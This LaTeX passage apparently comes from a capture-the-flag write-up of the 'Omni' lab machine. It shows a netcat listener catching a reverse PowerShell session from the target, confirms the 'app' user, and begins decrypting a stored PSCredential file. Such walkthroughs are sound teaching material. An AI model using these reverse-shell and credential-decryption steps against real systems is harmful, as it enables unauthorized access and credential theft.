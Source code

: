 \documentclass[../main.tex]{subfiles}
\begin{document}
\newpage
To know if this is a Powershell prompt, let's enter a command.

\includegraphics[width=\linewidth]{images/Wannes/omni_web3.png}

It appears that this is a CMD interface, not Powershell. Let's try running netcat to get a reverse shell for easier typing. We'll reuse our old command for this and adjust the port:

\includegraphics[width=\linewidth]{images/Wannes/omni_web4.png}

And sure enough, the command works. 

\begin{lstlisting}
user@ubuntu:~$ nc -nvlp 4321
Listening on 0.0.0.0 4321
Connection received on 10.10.10.204 49677
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\windows\system32>
\end{lstlisting}

We can check that we are now logged in as app:

\begin{lstlisting}
PS C:\windows\system32> $env:UserName
app
\end{lstlisting}

Now we should be able to open the credentials file from earlier. To open the file we follow this \footnote{\url{https://techramblers.blog/2020/04/08/decrypt-pscredential-object-password-and-its-applications/}} guide.

\newpage
First we store the data in a variable:
\end{document}
